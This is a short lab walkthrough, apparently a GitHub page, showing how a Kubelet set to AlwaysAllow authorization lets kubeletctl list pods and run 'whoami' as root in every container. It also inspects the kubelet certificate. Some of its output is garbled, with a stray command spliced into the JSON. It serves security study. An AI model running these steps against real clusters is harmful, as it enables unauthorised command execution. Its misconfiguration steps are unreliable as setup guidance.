 
#### Step 1 Make a request to Kubelet API:
```sh
apt install net-tools
netstat -ntlp
curl -k -X GET https://localhost:10250/pods
```
#### Step 2 Modify the Kubelet Configuration file:
```sh
cd /var/lib/kubelet
cp config.yaml config.yaml.bak
```

```sh
Set anonymous auth to false
Authorization Mode to AlwaysAllow
```

```sh
systemctl restart kubelet
systemctl status kubelet
```

#### Step 3 Make Request to Kubelet API:
```sh
curl -k -X GET https://localhost:10250/pods
"""
          {
            "name": "kube-scheduler",
            "state": {
              "running": {
                "startedAt": "2023-11-02T15:05:19Z"
              }
            },kubeletctl pods -i
            "lastState": {},
            "ready": true,
            "restartCount": 2,
            "image": "k8s.gcr.io/kube-scheduler:v1.24.2",
"""
```
#### Step 4 Download kubeletctl:

##### GitHub Repo

https://github.com/cyberark/kubeletctl

```sh
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.6/kubeletctl_linux_amd64 && chmod a+x ./kubeletctl_linux_amd64 && mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
```

```sh
kubeletctl pods -i
"""
┌─────────────────────────────────────────────────────────────────────────────────────┐
│                                  Pods from Kubelet                                  │
├───┬────────────────────────────────────────┬──────────────┬─────────────────────────┤
│   │ POD                                    │ NAMESPACE    │ CONTAINERS              │
├───┼────────────────────────────────────────┼──────────────┼─────────────────────────┤
│ 1 │ kube-controller-manager-pat-virtualbox │ kube-system  │ kube-controller-manager │
│   │                                        │              │                         │
"""
kubeletctl run "whoami" --all-pods -i
"""
5. Pod: kube-proxy-h6zrm
   Namespace: kube-system
   Container: kube-proxy
   Url: https://127.0.0.1:10250/run/kube-system/kube-proxy-h6zrm/kube-proxy
   Output: 
root
"""
```

#### Step 5 Verify the certificate of the kubelet for node authorizer group:
```sh
openssl x509 -in  /var/lib/kubelet/pki/kubelet-client-current.pem -text -noout
#Subject: O = system:nodes, CN = system:node:pat-virtualbox
```
